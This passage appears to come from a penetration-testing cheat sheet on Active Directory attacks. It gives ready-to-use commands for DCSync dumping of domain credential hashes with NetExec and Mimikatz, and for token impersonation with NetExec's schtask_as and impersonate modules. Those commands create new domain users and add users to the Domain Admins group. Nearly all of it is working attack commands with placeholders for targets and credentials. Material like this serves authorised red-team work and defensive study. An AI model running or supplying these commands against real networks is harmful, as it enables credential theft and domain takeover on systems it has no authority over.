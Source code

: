 - DCSync using **NetExec** (ntdsutil module)

```python
netexec smb <DC-IP> -u <ADMIN-USER> -p <PASSWORD> -M ntdsutil --log ntds.dump
```

- DCSync using **Mimikatz**

```c
.\mimikatz.exe "log dcsync.dump" "lsadump::dcsync /domain:<DOMAIN> /all" "exit"
```

### Token Impersonation (PrivEsc)
---
#### Using NetExec's schtask_as module

- Enumerate logged-in users:

```c
netexec smb 10.10.10.0/24 -u <LOCALADMIN> -p <PASSWORD> --local-auth --loggedon-users
```

- Impersonate a high-privileged domain user

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

- **Example 1**: Create a new *"Domain Admin"* user

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> --local-auth -M schtask_as -o USER=<logged-on-user> CMD="net user /add newuser passwd /domain"
```

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> --local-auth -M schtask_as -o USER=<logged-on-user> CMD='net group "Domain Admins" newuser /ADD /DOMAIN'
```

- **Example 2:** Promote an existing low-privileged user to domain admin

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> --local-auth -M schtask_as -o USER=<logged-on-user> CMD='net group "Domain Admins" existinguser /ADD /DOMAIN'
```

- Source: https://www.netexec.wiki/smb-protocol/impersonate-logged-on-users

#### Using NetExec's impersonate module

- List available tokens:
	- This will list available tokens and their integrity level

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> --local-auth --exec-method smbexec -M impersonate
```

- Impersonate the target user:

```c
nxc smb <IP> -u <LOCALADMIN> -p <PASSWD> --local-auth --exec-method smbexec -M impersonate -o TOKEN=<TOKEN-ID> EXEC="net user /add newuser passwd /domain"
```
